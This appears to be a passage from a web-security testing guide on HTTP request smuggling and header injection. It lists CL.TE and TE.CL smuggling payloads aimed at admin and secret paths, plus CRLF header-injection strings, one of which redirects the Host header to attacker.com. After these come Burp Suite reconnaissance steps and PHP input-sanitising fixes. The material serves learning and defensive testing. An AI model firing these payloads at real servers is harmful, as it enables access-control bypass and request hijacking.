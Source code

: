 - **HTTP Smuggling (CL.TE) Payloads**:
  - `POST / HTTP/1.1\r\nHost: example.com\r\nContent-Length: 0\r\nTransfer-Encoding: chunked\r\n\r\n5\r\nSMUGG\r\n0\r\n\r\nGET /admin HTTP/1.1\r\nHost: example.com\r\n\r\n` (Smuggles GET request)
  - `Content-Length: 6\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\nGET / HTTP/1.1\r\nHost: example.com\r\n\r\n` (CL.TE mismatch)
  - `Content-Length: 100\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\nPOST /admin HTTP/1.1\r\nHost: example.com\r\n\r\n` (Extended smuggling)

- **HTTP Smuggling (TE.CL) Payloads**:
  - `POST / HTTP/1.1\r\nHost: example.com\r\nTransfer-Encoding: chunked\r\nContent-Length: 4\r\n\r\n0\r\n\r\nGET /admin HTTP/1.1\r\nHost: example.com\r\n\r\n` (TE.CL mismatch)
  - `Transfer-Encoding: chunked\r\nContent-Length: 10\r\n\r\n5\r\nSMUGG\r\n0\r\n\r\nGET /secret HTTP/1.1\r\nHost: example.com\r\n\r\n` (Smuggled request)
  - `Transfer-Encoding: chunked\r\nContent-Length: 3\r\n\r\n0\r\n\r\nPOST /api HTTP/1.1\r\nHost: example.com\r\n\r\n` (Backend smuggling)

- **Header Injection Payloads**:
  - `%0d%0aX-Custom:%20malicious` (Injects custom header)
  - `\r\nHost:%20attacker.com` (Host header manipulation)
  - `%0aX-Forwarded-For:%20192.168.1.1` (Spoofs IP)
  - `%0d%0aContent-Security-Policy:%20default-src%20'none'` (Alters CSP)

**Note**: Payloads depend on server (e.g., Apache, Nginx) and proxy (e.g., Cloudflare, Squid) configurations. Test payloads in headers, query parameters, or POST bodies where HTTP parsing occurs. Use URL encoding (`%0d%0a`) for splitting and raw requests for smuggling.

### 1. Identify Vulnerable Endpoints

**Objective**: Locate inputs or endpoints that may process HTTP headers or requests unsafely.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify forms, redirects, APIs, or pages that handle user input in headers (e.g., `Location`, `Set-Cookie`).
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or click links to capture requests in HTTP History.
   - Note parameters (e.g., `redir=/home`, `lang=en`).
3. Inspect responses:
   - Check for header manipulation or multiple responses.
   - Use Developer Tools (`Ctrl+Shift+I`) to analyze headers and cache behavior.
4. List endpoints:
   - Document URLs, forms, headers (e.g., `User-Agent`, `Referer`), and APIs.

**Example Endpoints**:
- URL: `http://example.com/redirect?redir=/home`
- Form: `<input name="lang">`
- API: `POST /api/setlang` with `{"lang": "en"}`

**Remediation**:
- Validate inputs:
  ```php
  if (!preg_match('/^[a-zA-Z0-9\/]+$/', $_GET['redir'])) die("Invalid input");
  ```
- Sanitize headers:
  ```php
  $redir = str_replace(["\r", "\n"], "", $_GET['redir']);
  ```
